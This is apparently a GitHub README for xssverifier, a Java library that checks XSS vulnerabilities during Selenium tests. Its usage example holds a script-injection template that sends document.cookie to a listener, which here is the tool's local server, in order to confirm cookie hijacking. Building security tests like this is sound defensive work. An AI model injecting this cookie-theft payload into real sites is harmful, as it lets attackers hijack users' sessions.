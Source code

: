# xssverifier
A little project for XSS-safe verification for Selenium

        <dependency>
            <groupId>com.github.eljah</groupId>
            <artifactId>xssverifier</artifactId>
            <version>0.1</version>
        </dependency>

Usage example:

XSSCheck x=XSSVerifier.createNewCheck(4567,"xss.gif","<script> img = new Image(); img.src = \"http://%1$s:%2$d/%3$s?\"+document.cookie; </script>");
/* 4567 is a port number where the XSS checker's embbedded http server runs, xss.gif is a resource, the last string is  javascript injection template*/

//check occurs behind the scene
//to ensure it works open localhost:4567/xss.gif in your browser

while (!x.getXSSURLCalledStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 1...");
}

//the XSS host and resource were requested but not nessessarily some parameter was passed
//to ensure it works open localhost:4567/xss.gif?sometext in your browser

while (!x.getXSSCookiePassedStatus())
{
    Thread.sleep(1000);
    System.out.println("wait 2...");
}

//the XSS host and resource were requested and some parameter was passed but that was not the hijacked cookie
//to ensure it works open localhost:4567/xss.gif?visited=02022015 in your browser

while (!x.getXSSCookieHijacked("visited"))
{
    Thread.sleep(1000);
    System.out.println("wait 3...");
}

//the XSS host and resource were requested, some parameter was passed and this parameter is cookie named visited
//so the particular cookie was hijacked and that was verified
